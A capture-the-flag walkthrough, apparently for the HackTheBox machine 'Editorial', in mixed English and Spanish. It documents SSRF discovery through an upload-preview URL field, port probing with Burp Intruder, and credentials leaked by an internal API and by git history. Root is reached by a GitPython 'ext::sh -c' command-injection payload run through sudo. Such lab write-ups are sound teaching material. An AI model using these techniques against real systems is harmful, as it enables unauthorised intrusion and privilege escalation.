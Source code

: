   
We start by performing a scan with Nmap to see which ports are open and what services are running
sudo nmap -p- --open -sS --min-rate 5000 -n -v -sV -Pn 10.10.11.20 > escaneo.txt
![[Untitled 3.png]]
![[Untitled 1.png]]
We found ports 22 (SSH) and 80 (HTTP) open, so we proceed to scan the website using WhatWeb
![[Untitled 22.png]]
![[Untitled 32.png]]
Now, to visit the website, we need to modify the /etc/hosts file so that the address editorial.htb points to the IP address
sudo nano /etc/hosts
![[Untitled 4.png]]
On the website, we find the home page
![[Untitled 5.png]]
/upload
![[Untitled 6.png]]
And /about
![[Untitled 7.png]]
We will focus on the /upload view, as it has a URL input and allows file uploads, meaning it opens several options to be vulnerable.
Let's check the responses of the requests using Burp Suite
![[Untitled 8.png]]
  
FoxyProxy is an extension used to raise up a proxy between the host and the target. It can be used to intercept the traffic in the port 8080 and use Burpsuite as interceptor.
  
In this case we’ll be using “Open Browser” Burpsuite feature.
  
Make the request to the web page and navigate to “HTTP History” tab in Burpsuite.
  
In the input, we enter something random and upload a txt file with some text, then click preview
![[Untitled 9.png]]
  
El placeholder del input del usuario incluye un texto diciendo que indiquemos una URL.
Podemos intentar incluir una URL que apunte a nuestro host para comprobar si tenemos un SSRF. Este caso de SSRF consistiria en que el backend donde enviamos la URL alojado en el serivdor, usara nuestra URL como parametro para hacer otra peticion en el lado del serivdor. De esta manera tendriamos control sobre las peticiones que hace el servidor.
  
Note:Server-Side Request Forgery (SSRF) is a type of web application vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.
  
Ahora vamos a levantar un servidor HTTP con python, con el objetivo de comprobar si el servidor nos realiza alguna peticion cuando le pasamos nuestra IP como URL.
  
  
```JavaScript
sudo python3 -m http.server 8081
```
  
A continuacion le incluimos a la request la url http://<OwnHTB_IP>:8081.
  
Mandamos la request y observamos que recibimos una perticion GET que proviene del servidor.
  
Lo hemos conseguido! Sabemos que es vulnerable a SSRF.
  
A continuacion incluimos la URL [http://127.0.0.1/](http://127.0.0.1/) para ver como se comporta el servidor al hacerse una peticion a el mismo.
  
![[Untitled 10.png]]
It seems to be the same, so we will use Intruder to brute force the port
![[Untitled 11.png]]
Payload Configuration
![[Untitled 12.png]]
Start attack
![[Untitled 13.png]]
The Intruder was taking too long, so I checked the response.
PORT: 5000
![[Untitled 14.png]]
![[Untitled 15.png]]
wget [http://editorial.htb](http://editorial.htb/static/uploads/9bdd2b6b-e1b6-4821-a4f9-e603220f497b)/static/uploads/1c4f2f18-a4cd-4069-a1fa-14864efd5de2
![[Untitled 16.png]]
cat 765abd5b-3dc5-46cf-a898-c07c20c5f33e | jq
![[Untitled 17.png]]
![[Untitled 18.png]]
  
Nos resulta interesante este endpoint "endpoint": "/api/latest/metadata/messages/authors",
![[Untitled 19.png]]
Intentamos acceder mediante la petición
[http://editorial.htb:5000/api/latest/metadata/messages/authors](http://127.0.0.1:5000/api/latest/metadata/messages/authors)
![[Untitled 20.png]]
Username: dev
Password: dev080217_devAPI!@
Ya que no tenemos ningun panel de login por ningun sitio de la web intentaremos acceder mediante ssh con estas credenciales
![[Untitled 21.png]]
Encontramos la flag de usuario
![[Untitled 22.png]]
En el directorio de apps encontramos un .git
![[Untitled 23.png]]
Accedemos
![[Untitled 24.png]]
Nos dirigimos logs y encontramos
![[Untitled 25.png]]
Hacemos un cat a HEAD y encontramos los commits, de los cuales destacamos el siguiente
![[Untitled 26.png]]
Accedemos al commit con git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
![[Untitled 27.png]]
Cambiamos de usuario con las credenciales encontradas.
Username: prod
Password: 080217_Producti0n_2023!@
![[Untitled 28.png]]
Intentamos sudo -l, ya que con el usuario dev no pudimos acceder
![[Untitled 29.png]]
USER prod
![[Untitled 30.png]]
Hacemos un cat al binario que se ejecuta con python
![[Untitled 31.png]]
Hacemos una busqueda rapida y encontramos lo siguiente
![[Untitled 32.png]]
![[Untitled 33.png]]
Parece ser que podemos lanzar un comando cualquiera de la siguiente manera
`**<gitpython::clone> 'ext::sh -c COMANDO'**`
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c cat% /root/root.txt% >% /tmp/root’
![[Untitled 34.png]]
Obtenemos la flag de root
![[Untitled 35.png]]